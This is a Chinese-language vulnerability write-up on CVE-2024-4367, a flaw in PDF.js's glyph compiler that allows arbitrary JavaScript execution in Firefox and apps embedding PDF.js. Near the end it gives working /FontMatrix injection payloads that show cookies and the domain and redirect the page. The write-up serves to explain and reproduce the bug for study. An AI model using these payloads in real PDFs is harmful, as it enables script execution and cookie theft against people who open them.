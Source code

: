 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 钓鱼
tags:
  - PDF
  - PDF阅读器漏洞
---
```


# CVE-2024-4367-PDF.js中任意JavaScript执行

> [(1) X 上的 Thomas Rinsma：“Just released the write-up for CVE-2024-4367, a bug I found recently in PDF.js (and hence in Firefox), resulting in arbitrary JavaScript execution when opening a malicious PDF. https://t.co/sex6fR0xHS” / X](https://x.com/thomasrinsma/status/1792503111317119185)
>
> [CVE-2024-4367 - Arbitrary JavaScript execution in PDF.js — Codean Labs](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/)
>
> [Arbitrary JavaScript execution upon opening a malicious PDF · Advisory · mozilla/pdf.js · GitHub](https://github.com/mozilla/pdf.js/security/advisories/GHSA-wgrm-67xf-hhpq)
>
> [GitHub - LOURC0D3/CVE-2024-4367-PoC: CVE-2024-4367 & CVE-2024-34342 Proof of Concept](https://github.com/LOURC0D3/CVE-2024-4367-PoC)
>
> [GitHub - s4vvysec/CVE-2024-4367-POC: CVE-2024-4367 arbitrary js execution in pdf js](https://github.com/s4vvysec/CVE-2024-4367-POC)
>
> [知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具 (zsxq.com)](https://wx.zsxq.com/dweb2/index/topic_detail/1522484211581222)

 PDF.js 是由 Mozilla 维护的基于 JavaScript 的 PDF viewer

CVE-2024-4367允许攻击者在打开恶意 PDF 文件后立即执行任意 JavaScript 代码

---

## 影响范围

所有 Firefox 用户 (<126)，因为 Firefox 使用 PDF.js 来显示 PDF 文件

也会严重影响（间接）许多使用 PDF.js 进行预览功能的基于 Web 和 Electron 的应用程序

---

> 实测可复现漏洞版本:
>
> ![image-20240522104457591](http://cdn.ayusummer233.top/DailyNotes/202405241346924.png)
>
> ![image-20240522104518122](http://cdn.ayusummer233.top/DailyNotes/202405241346242.png)
>
> 下载 firefox 旧版本:
>
> - [安装 Firefox 以前的版本 | Firefox 帮助 (mozilla.org)](https://support.mozilla.org/zh-CN/kb/安装 Firefox 以前的版本)
> - [Directory Listing: /pub/firefox/releases/ (mozilla.org)](https://ftp.mozilla.org/pub/firefox/releases/)

---

## 介绍

PDF.js 有两种常见的用例

- 它是 Firefox 内置的 PDF 查看器

- 它被捆绑到一个名为 `pdfjs-dist` 的 Node 模块中，根据 NPM，每周下载量约为 270 万次

  包括但不限于 Git 托管平台到笔记应用程序都用它来提供 PDF 预览功能

  > [pdfjs-dist - npm (npmjs.com)](https://www.npmjs.com/package/pdfjs-dist)
  >
  > ![image-20240521170324479](http://cdn.ayusummer233.top/DailyNotes/202405241346682.png)

---

## Glyph rendering(字形渲染)

这个漏洞和 PDF 的 JavaScript 脚本功能本身无关. 这是在对字体渲染代码的特定部分的疏忽造成的漏洞

PDF 中的字体可以有多种不同的格式，其中一些格式比其他格式更晦涩。

对于 TrueType 等现代格式，PDF.js 主要遵循浏览器自己的字体渲染器。

在其他情况下，它必须手动将字形（即字符）描述转换为页面上的曲线。为了优化性能，它为每个字形预编译了路径生成器函数。

如果支持的话，可以通过创建一个 JavaScript `Function` 对象来完成，该对象的主体 ( `jsBuf` ) 包含组成路径的指令

```js
// If we can, compile cmds into JS for MAXIMUM SPEED...
if (this.isEvalSupported && FeatureTest.isEvalSupported) {
  const jsBuf = [];
  for (const current of cmds) {
    const args = current.args !== undefined ? current.args.join(",") : "";
    jsBuf.push("c.", current.cmd, "(", args, ");\n");
  }
  // eslint-disable-next-line no-new-func
  console.log(jsBuf.join(""));
  return (this.compiledGlyphs[character] = new Function(
    "c",
    "size",
    jsBuf.join("")
  ));
}
```

从攻击者的角度来看，如果我们能够以某种方式控制这些 `cmds` 进入 `Function` 主体并插入我们自己的代码，那么一旦这样的字形出现，它就会被执行

---

```js
/FontMatrix [1 2 3 4 5 (1\); alert\('origin: '+window.origin+'\\npdf url: '+window.PDFViewerApplication.url)]

/FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
  
<<
  /BaseFont /SNCSTG+CMBX12
  /FontDescriptor 7 0 R
  /Subtype /Type1
  /FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
  /Type /Font
>>
      
/FontMatrix [1 2 3 4 5 (0\); location.href=\('https://www.baidu.com')]

/FontMatrix [1 2 3 4 5 (1\); alert\('document.domain: '+window.document.domain+'\\nlocation: '+window.location+'\\ncookie: '+window.document.cookie)]
```

[知识星球 | CVE-2024-4367](https://wx.zsxq.com/dweb2/index/topic_detail/1522484211581222) 中目前似乎还没看到什么更实际的利用方式

---

